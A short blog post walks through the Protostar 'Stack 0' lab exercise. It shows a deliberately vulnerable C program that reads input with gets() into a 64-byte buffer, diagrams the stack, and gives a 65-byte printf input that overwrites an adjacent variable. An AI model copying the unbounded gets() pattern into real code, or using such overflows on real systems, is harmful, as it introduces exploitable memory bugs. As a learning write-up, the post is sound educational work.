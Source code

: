 ```yaml
---
author: alvaro
comments: true
layout: post
title: Stack 0 Protostart
categories:
- Archive
tags:
- security
---
```


I have started to play with the protostar VM along with nebula. This VM presents the concept about the memory issues as buffer overflows in stack and in the heap, format string and so on.

The first exercise present a buffer overflow. The code is as follows.

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

To resolve this puzzle we should have clear how is carried out the flow execution of a program. In the C language the stack is a structure that is used to pass argument to the function, save return address and also to save the local variables. So in the following C code the stack would be.


```C

void func( int a, int b)
{
	int c;
	return;
}
```

```
The stack grows downwards

+————————————+
| argument b |  The local variables are saved in reverse order.
+————————————+
| argument a |
+————————————+
| return     |  The return address is saved automatically by the 
| address    |  call instruction in assembly.
+————————————+
|            |  The base pointer register. Is used to reference 
|    EBP     |  inside the function without calculate offset 
|            |  respect with the ESP.
+————————————+
|  local c   |
+————————————+
```

The stack in the main function is.

```
+————————————+
| argument 2 |  
+————————————+
| argument 1 |
+————————————+
| return     |  
| address    |  
+————————————+
|            |   
|    EBP     |   
|            |  
+————————————+
|  modified  |
+————————————+
|  buffer    |
+————————————+
```

So if we are able to write more than 64 bytes in buffer we can overwrite the value in `modified`. But Are we able to achieve that? The answers is yes due to the code is using an insecure function `gets`. It does not limit the input so we are able to write more than 64 bytes. So with the following we can change the value.

```bash
$  printf "%065x" 1
00000000000000000000000000000000000000000000000000000000000000001
$ ./stack0
00000000000000000000000000000000000000000000000000000000000000001
you have changed the 'modified' variable

```

If you want to augment your knowledge about stack and how to exploit it I encourage to read the article [Smash the Stack For Fun And Profit by Aleph One](http://q.hscott.net/reads/stack_smashing.pdf)
